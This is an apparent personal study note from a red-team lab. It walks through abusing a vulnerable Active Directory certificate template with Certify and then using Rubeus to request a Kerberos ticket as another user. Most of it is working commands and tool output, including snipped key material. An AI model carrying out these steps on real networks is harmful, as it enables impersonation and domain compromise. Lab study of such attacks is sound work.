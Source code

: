 ```yaml
---
creation date: September 24th 2022
last modified date: September 24th 2022
aliases: []
tags: #🧰
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #🧰  

# [[Certify]]  
___

## Description:
Find Certificate Authorities (CA's) and vulnerable templates with [Certify](https://github.com/GhostPack/Certify) 

## Installation


## Commands
Find Certificate Authorities (CA's):
`Certify.exe cas

Find vulnerable templates (the context of who you are running as matters):

```
beacon> getuid
[*] You are CYBER\iyates

beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe find /vulnerable
```

Look for: 

**ENROLLEE_SUPPLIES_SUBJECT**, which allows the certificate requestor to provide a SAN (subject alternative name).

The certificate usage has **Client Authentication** set.

Domain Users have enrolment rights, so any domain user may request a certificate from this template

If a principal you control had WriteOwner, WriteDacl or WriteProperty, then this could also be abused.


Use the templete to request a certificate as another user:
```
beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe request /ca:dc-1.cyberbotic.io\ca-1 /template:VulnerableUserTemplate /altname:nglover

[*] Action: Request a Certificates

[*] Current user context    : CYBER\iyates
[*] No subject name specified, using current context as subject.

[*] Template                : VulnerableUserTemplate
[*] Subject                 : CN=Isabel Yates, CN=Users, DC=cyberbotic, DC=io
[*] AltName                 : nglover

[*] Certificate Authority   : dc-1.cyberbotic.io\ca-1

[*] CA Response             : The certificate had been issued.
[*] Request ID              : 4

[*] cert.pem         :

-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEA7+QJhT7SgrP2SLWI7JqilriLBFjGRgob7sK6Gt8/EN4ODCqA
[...snip...]
EZCgtNFHJpynmPVNEcocncFPtV1hskXIElcwer/EdIROOW+qZhan
-----END RSA PRIVATE KEY-----
-----BEGIN CERTIFICATE-----
MIIGKzCCBROgAwIBAgITIQAAAAJ1qRjA3m3TOAAAAAAAAjANBgkqhkiG9w0BAQsF
[...snip...]
Xm58FnNpAvwXQi1Vu+xIdtpRSGsnl6T6/TYwJlhKqMEU9mRfgaWXgLS+HdS++aw=
-----END CERTIFICATE-----

[*] Convert with: openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

Copy the whole certificate (including the private key) and save it to `cert.pem` on the Kali VM.  Then use the `openssl` command to convert it into pfx format.  You may enter a password (recommended) or leave it blank.

```
root@kali:~# openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
Enter Export Password:
Verifying - Enter Export Password:
```

Convert `cert.pfx` into a base64 encoded string:  `cat cert.pfx | base64 -w 0` and use `Rubeus asktgt` to request a TGT using this certificate.
```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe asktgt /user:nglover /certificate:MIIM5wIBAz[...snip...]dPAgIIAA== /password:password /nowrap

[*] Action: Ask TGT

[*] Using PKINIT with etype aes256_cts_hmac_sha1 and subject: CN=Isabel Yates, CN=Users, DC=cyberbotic, DC=io 
[*] Building AS-REQ (w/ PKINIT preauth) for: 'cyberbotic.io\nglover'
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIGNjCCB[...snip...]pYy5pbw==

  ServiceName              :  krbtgt/cyberbotic.io
  ServiceRealm             :  CYBERBOTIC.IO
  UserName                 :  nglover
  UserRealm                :  CYBERBOTIC.IO
  StartTime                :  1/18/2022 4:38:26 PM
  EndTime                  :  1/19/2022 2:38:26 AM
  RenewTill                :  1/25/2022 4:38:26 PM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  unJ966veiMXllOu4n88hvAcX/6j71To9JJU5Ec48Pds=
  ASREP (key)              :  6F8361B5177CCC416E67A297C9D61AC975DEAA9E0505DE86657F16EAE9AD8F72
```

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 24th 2022 (02:50 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
